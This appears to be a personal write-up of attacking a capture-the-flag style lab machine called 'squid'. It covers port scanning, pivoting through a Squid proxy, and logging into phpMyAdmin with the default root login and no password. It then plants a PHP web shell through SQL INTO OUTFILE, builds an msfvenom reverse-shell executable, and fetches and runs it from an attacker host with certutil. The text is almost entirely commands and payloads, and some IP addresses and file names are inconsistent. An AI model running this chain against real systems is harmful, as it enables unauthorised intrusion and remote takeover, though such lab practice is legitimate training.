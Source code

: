 # squid 
# date 2-8-2023
# ip 192.168.191.189


# nmap
 PORT     STATE SERVICE
3128/tcp open  squid-http

 sudo nmap -p- -sS -Pn 192.168.191.189
 nmap -p 3128 -A -T4 -Pn 192.168.91.189


http://192.168.91.189:3128




# squid proxy
python spose.py --proxy http://192.168.191.189:3128 --target 192.168.191.189
192.168.191.189 3306 seems OPEN 
192.168.191.189 8080 seems OPEN 

after setting proxy to our browser we can acces
http://192.168.191.189:8080/



# dirb
dirb http://192.168.91.189:8080 /usr/share/wordlists/dirb/big.txt -p 192.168.91.189:3128


# enum
http://192.168.191.189:8080/phpsysinfo/
We start off by trying default phpmyadmin creds, which can be found with some quick research
http://192.168.191.189:8080/phpmyadmin/index.php
root:NULL


# exploitation
select "<?php echo shell_exec($_GET['c']);?>" into OUTFILE 'C:/wamp/www/webshell.php'
http://192.168.191.189:8080/webshell1.php?&c=whoami
we got webshell
# stable shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.91 LPORT=1234 -f exe >shell.exe
We also prepare a multi/handler listener using msfconsole with the appropriate options set to catch the msfvenom payload

http://192.168.191.189:8080/webshell.php?&c=certutil.exe -urlcache -f http://192.168.45.167/shell.exe shell.exe
192.168.191.189:8080/webshell1.php?&c=shell.exe